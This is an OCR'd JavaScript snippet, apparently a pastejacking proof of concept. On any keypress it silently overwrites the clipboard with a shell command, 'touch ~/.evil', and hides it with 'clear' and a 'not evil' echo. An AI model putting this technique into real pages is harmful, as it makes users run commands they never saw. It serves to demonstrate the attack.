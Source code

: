 ```

              textArea.value = text;



              document.body.appendChild(textArea);



              textArea.select();



              try {

                var successful = document.execCommand('copy');

                var msg = successful ? 'successful' : 'unsuccessful';

                console.log('Copying text command was ' + msg);

              } catch (err) {

                console.log('Oops, unable to copy');

              }



              document.body.removeChild(textArea);

            }



            document.addEventListener('keydown', function(event) {

                var ms = 800;  

                var start = new Date().getTime();

                var end = start;

                while(end < start + ms) {

                    end = new Date().getTime();

                } 

                copyTextToClipboard('touch ~/.evil\nclear\necho "not evil"');

            });

```
